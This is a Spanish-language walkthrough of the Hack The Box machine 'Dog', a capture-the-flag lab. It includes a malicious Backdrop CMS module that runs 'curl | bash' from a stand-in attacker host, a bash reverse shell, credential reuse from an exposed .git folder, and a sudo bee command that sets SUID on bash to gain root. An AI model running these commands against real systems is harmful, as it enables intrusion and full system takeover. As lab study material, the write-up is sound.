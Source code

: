 HTB “Dog” – Walkthrough
Autor: Ju4nC
Fecha: 2025-07-14
Plataforma: Hack The Box
Tipo: Boot-to-Root
Dificultad: Fácil

Índice
Reconocimiento

Enumeración

Explotación inicial

Escalada de privilegios

Captura de flags

Herramientas usadas

Conclusiones

Reconocimiento
IP objetivo: 10.10.11.58

Escaneo de puertos

nmap -p- -n -Pn --min-rate 5000 10.10.11.58 -oG allPorts
Se detectan los puertos abiertos y se guarda el resultado en allPorts. Luego, usando ExtractPorts, copiamos los puertos abiertos al portapapeles.


nmap -p22,80 -sCV 10.10.11.58 -oN targeted
Resultado:

Puerto 22 → SSH

Puerto 80 → HTTP (sitio web)

Presencia de un repositorio .git

Enumeración
Clonamos el repositorio .git expuesto:


python3 GitHack.py http://10.10.11.58/.git/
cd 10.10.11.58
En los archivos descargados, settings.php contiene una contraseña. Además:


grep -r ".htb"
Nos muestra un correo vinculado al sitio, útil para autenticarnos en el login.

Explotación inicial
Dentro del sitio, accedemos a la opción de instalar un nuevo módulo. Podemos subir un .tar.gz.

Crear módulo malicioso:
Descargamos un ejemplo de módulo desde
https://backdropcms.org/project/examples

Editamos el archivo page_example.module:


<?php system("curl http://IP_ATACANTE | bash"); ?>
En page_example.info, añadimos:

ini
Copiar
Editar
type = module
Empaquetamos:


tar -zcvf page_example.tar.gz page_example/
Servidor y shell reversa:
Creamos un archivo index.html con el payload:


#!/bin/bash
bash -i >& /dev/tcp/IP_ATACANTE/443 0>&1
Levantamos servicios:

python3 -m http.server 80
nc -nlvp 443
Al subir el módulo, se ejecuta el payload y conseguimos acceso al sistema con una shell reversa.

Escalada de privilegios
Enumeramos usuarios en el sistema. Reutilizamos la contraseña obtenida del .git y accedemos como un usuario válido. Luego:


cat user.txt
Comprobamos permisos sudo:


sudo -l
Tenemos acceso a bee. Ejecutamos:

sudo bee --root=/var/www/html eval "system('chmod u+s /bin/bash');"
bash -p
Obtenemos acceso como root.

Captura de flags

cd /root
cat root.txt
Herramientas usadas
nmap

ExtractPorts

GitHack.py

Backdrop CMS

curl, nc, bash

python3 -m http.server

Conclusiones
Revisar si .git/ está expuesto puede revelar credenciales.

Backdrop CMS permite cargas maliciosas si no se valida el contenido.

Los permisos sudo deben auditarse, especialmente si permiten ejecución de binarios arbitrarios.

Es importante combinar enumeración activa con análisis manual de archivos sensibles.





